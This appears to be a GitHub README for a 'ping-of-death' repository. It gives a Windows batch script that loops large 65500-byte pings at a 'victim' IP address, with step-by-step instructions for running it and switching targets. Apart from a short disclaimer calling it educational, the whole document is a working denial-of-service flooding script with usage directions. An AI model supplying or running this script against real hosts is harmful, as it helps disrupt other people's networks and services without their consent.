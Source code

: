 # ping-of-death

## Warning I am not responsible for any damage done or accountable for the usage of this software! This is only for educational purposes.

### How to use: 

1.) open the dos.txt file it will read:
:loop
ping <IP Address> -l 65500 -w 1 -n 1
goto :loop

2.) rename <IP Address> with the ip address of the victim then save and exit the file

3.) rename the dos.txt file to dos.bat

4.) run the file

* to change victims simply rename the file to dos.txt and change the previous ip address to the next one and rename the file to: dos.bat
